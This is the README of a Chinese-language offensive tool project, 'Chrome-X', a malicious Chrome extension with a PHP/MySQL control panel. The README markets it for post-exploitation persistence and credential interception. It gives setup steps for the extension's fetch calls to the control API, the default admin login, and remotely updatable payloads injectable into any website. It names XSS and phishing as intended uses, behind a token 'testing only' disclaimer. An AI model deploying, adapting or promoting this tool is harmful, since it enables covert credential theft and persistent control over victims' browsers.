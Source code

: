 # Chrome-X 后渗透持久化与凭据监听 🚀

## 项目介绍 📝

Chrome-X 是一个用于后渗透持久化与票据监听的平台。

## 功能特点 ✨

- 👥 每个插件用户可设置唯一值，以防接口暴漏被爆破
- 📊 后台可远程更新payload
- ⚙️ 实现持久化与凭据监听
- 🔒 自定义payload可实现不同场景需求
- 📱 可实现植入任何网站

## 系统要求 🛠️

- PHP 7.4 或更高版本
- MySQL 5.7 或更高版本

## 插件端配置 📦

1. background.js文件修改

   修改3和4行为用户的用户名和盐

   ```js
   const USERNAME = 'test';
   const SALT = '666';
   ```

   第19行 修改API

   ```js
   const response = await fetch(`https://127.0.0.1/api/getuser.php?hash=${hash}`
   ```

   

2. content.js文件修改

   修改第64行API

   ```js
   const response = await fetch(`https://127.0.0.1/api/getuser.php?hash=${hash}`, {
   ```


## 控制端部署 📦

1. 建议部署在宝塔 给所有文件权限 否则生成sessions会报错

2. 配置数据库文件 /config/config.php

   ```js
   // MySQL数据库配置
   define('DB_HOST', 'localhost');
   define('DB_NAME', 'chrome_x');
   define('DB_USER', 'chrome_x');
   define('DB_PASS', 'chrome_x');
   define('DB_CHARSET', 'utf8mb4'); 
   ```

   

### 1. 使用指南 🔑

- 访问 `http://your-domain/`
- 默认管理员账号：admin 密码：admin_hack 【修改密码请到数据库手动修改 或者下个版本修复问题】
- ![登入](https://github.com/user-attachments/assets/e733ba3e-3ccd-4d82-a0d8-f26280af55f5)
- 首页添加用户 用户名和盐必须和插件的一致
- ![添加用户](https://github.com/user-attachments/assets/9b02a2e2-d908-46d8-87a6-a7a575b5f898)
- 设置payload 其他玩法自行发掘 如：XSS平台等
- ![payload](https://github.com/user-attachments/assets/d6a39074-ea8b-4494-b71b-aafe0dd1c050)
- 用户过多分辨不清 可添加备注
![备注](https://github.com/user-attachments/assets/dc22fe2e-0102-4490-94c0-ccbc91a74d32)
- 测试持久化劫持与凭据获取
- ![测试截图2](https://github.com/user-attachments/assets/ab62d618-05b4-48f6-80a8-41f4dbe12b27)
- ![测试截图](https://github.com/user-attachments/assets/8247864a-4d7a-4f6e-9d39-7438028cb622)
- ![XSS](https://github.com/user-attachments/assets/eda5c1fc-fc65-4ca5-89f5-6eba705ddca2)


### 

## 常见问题 ❓

### 1. 登录失败

- 检查用户名和密码是否正确
- 确认数据库连接是否正常
- 检查是否给了文件权限 因为sessions需要生成文件

### 2. 修改密码失败

- 此功能是个bug 或在下个版本修复
- 请进入数据库手动修改

### 3. 用途建议

- XSS
- 钓鱼

## 工具思路 🔒

1. 获取到PC权限后想进行后渗透和持久化凭据劫持，利用安装Chrome插件和控制端配置，可远程修改payload，凭据劫持配合XSS平台使用。

## 下载地址 💻



```
https://github.com/0xShe/Chrome-X
```

## 免责声明 🆘

本程序只允许测试使用，禁止用于违法犯罪活动，否则一切后果将自行承担。

